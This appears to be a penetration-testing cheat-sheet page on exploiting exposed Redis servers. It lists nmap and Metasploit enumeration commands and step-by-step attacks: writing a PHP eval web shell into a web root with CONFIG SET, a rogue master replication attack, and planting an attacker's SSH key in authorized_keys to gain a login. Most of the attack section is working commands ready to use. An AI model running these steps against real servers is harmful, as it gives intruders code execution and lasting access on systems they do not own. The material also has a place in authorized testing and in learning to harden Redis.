 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
 ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> [!TIP]
> 
> #### Authentication: ***Brute force***

1. **Easy**:
> [!IMPORTANT] 
>Must have rights to access the dir / Must know the web root dir

```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
```


> [!note]
> Compile the .so on your machine
> run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error  



3. **ssh** :
>Generate a ssh public-private key pair on your pc: 

   `ssh-keygen -t rsa`

> Write the public key to a file : 

  `(echo -e "u\n\nu"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 

`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

> Finally, you can ssh to the redis server with private key : 

`ssh -i id_rsa redis@10.85.0.52 `

### ***Tags***:
| OS | Vuln versions | Techniques |
|----| ------------- | ---------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 



